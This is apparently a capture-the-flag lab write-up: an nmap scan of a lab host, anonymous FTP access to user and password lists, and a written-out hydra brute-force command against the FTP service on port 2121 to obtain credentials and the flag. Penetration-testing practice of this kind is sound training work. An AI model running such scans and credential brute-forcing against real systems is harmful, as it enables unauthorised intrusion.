




### 1. Nmap scan result
```
sudo nmap -sC -sV -A -T4 -Pn 10.129.203.6
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-30 21:25 IST
Stats: 0:01:01 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 80.00% done; ETC: 21:26 (0:00:11 remaining)
Stats: 0:01:55 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 80.00% done; ETC: 21:27 (0:00:24 remaining)
Stats: 0:03:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.57% done; ETC: 21:28 (0:00:00 remaining)
Nmap scan report for 10.129.203.6
Host is up (0.24s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
53/tcp   open  domain       ISC BIND 9.16.1 (Ubuntu Linux)
139/tcp  open  netbios-ssn  Samba smbd 4
445/tcp  open  netbios-ssn  Samba smbd 4
2121/tcp open  ccproxy-ftp?
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (InlaneFTP) [10.129.203.6]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2121-TCP:V=7.95%I=7%D=12/30%Time=6953F612%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,8B,"220\x20ProFTPD\x20Server\x20\(InlaneFTP\)\x20\[10\.129\
SF:.203\.6\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20crea
SF:tive\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creative\
SF:r\n");
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Network Distance: 11 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   ... 10
11  245.64 ms 10.129.203.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 209.74 seconds
```

### 2. I tried port 2121 with an anonymous login and downloaded users.list and passwords.list.



### 3. We brute forced the FTP service using hydra.
```sh
hydra -L users.list -P passwords.list -s 2121 ftp://10.129.203.6
```



### 4. Then we login to the ftp using found credentials. Download and submit the flag.




